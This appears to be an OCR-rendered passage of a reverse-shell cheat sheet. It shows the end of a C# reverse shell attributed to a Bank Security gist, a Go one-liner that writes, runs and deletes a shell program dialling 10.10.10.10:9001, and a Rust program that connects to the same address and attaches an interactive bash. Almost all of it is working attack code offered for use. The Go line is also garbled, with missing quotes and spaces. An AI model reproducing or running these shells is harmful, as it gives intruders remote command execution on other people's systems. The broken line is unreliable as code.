 ```csharp
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }

	}
}
```
From [Bank Security](https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs)

## Golang

```go 
echo 'package main;import"os/exec";import"net;funcmain(){c,_:=net.Dial("tcp","10.10.10.10:9001");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

### Rust

```rust
use std::net::TcpStream;
use std::os::unix::io::{AsRawFd, FromRawFd};
use std::process::{Command, Stdio};

fn main() {
 let s = TcpStream::connect("10.10.10.10:9001").unwrap();
 let fd = s.as_raw_fd();
 Command::new("bash")
 .arg("-i")
 .stdin(unsafe { Stdio::from_raw_fd(fd) })
 .stdout(unsafe { Stdio::from_raw_fd(fd) })
 .stderr(unsafe { Stdio::from_raw_fd(fd) })
 .spawn()
 .unwrap()
 .wait()
 .unwrap();
}
```
